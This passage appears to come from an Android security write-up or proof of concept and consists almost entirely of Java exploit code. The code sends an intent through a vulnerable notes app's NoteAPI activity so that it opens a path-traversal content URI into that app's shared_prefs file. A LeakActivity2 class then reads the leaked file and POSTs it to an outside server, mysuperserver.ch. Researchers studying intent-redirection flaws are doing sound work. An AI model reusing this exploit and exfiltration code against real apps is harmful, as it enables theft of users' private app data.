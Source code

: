 ```java
            nxt.setData(Uri.parse("content://com.inso.provider/..%2f..%2f..%2f..%2fdata%2fdata%2fcom.inso.mynotes%2fshared_prefs%2f" + debg.getD() + ".xml"));
            nxt.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
            nxt.setClassName(getPackageName(), "com.inso.exploit2.LeakActivity2");

            Intent expl = new Intent();
            expl.setClassName("com.inso.mynotes","com.inso.mynotes.NoteAPI");
            expl.setFlags(Intent.FLAG_ACTIVITY_SINGLE_TOP);
            expl.putExtra("nxt",nxt);
            startActivity(expl);
        }
    }
}
```
- LeakActivity2.java

```java
public class LeakActivity2 extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_leak2);
        try {
            InputStream i = getContentResolver().openInputStream(getIntent().getData());
            String result = convertInputStreamToString(i);
            Log.d("poc", "STEP 2:" + result);

            String url = "http://mysuperserver.ch/";
            OkHttpClient client = new OkHttpClient();
            RequestBody body = RequestBody.create(MediaType.parse("application/xml"),result);
            Request request = new Request.Builder().url(url).post(body).build();

            client.newCall(request).enqueue(new Callback() {
                @Override
                public void onFailure(Call call, IOException e) {
                    e.printStackTrace();
                }

                @Override
                public void onResponse(Call call, Response response) throws IOException {
                    if (response.isSuccessful()){
                        Log.d("http","ok");
                    }
                }
            });

        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    private static String convertInputStreamToString(InputStream is) throws IOException {
        ByteArrayOutputStream result = new ByteArrayOutputStream();
        byte[] buffer = new byte[8192];
        int length;
        while ((length = is.read(buffer)) != -1) {
            result.write(buffer, 0, length);
        }
        return result.toString(String.valueOf(StandardCharsets.UTF_8));
    }
}
```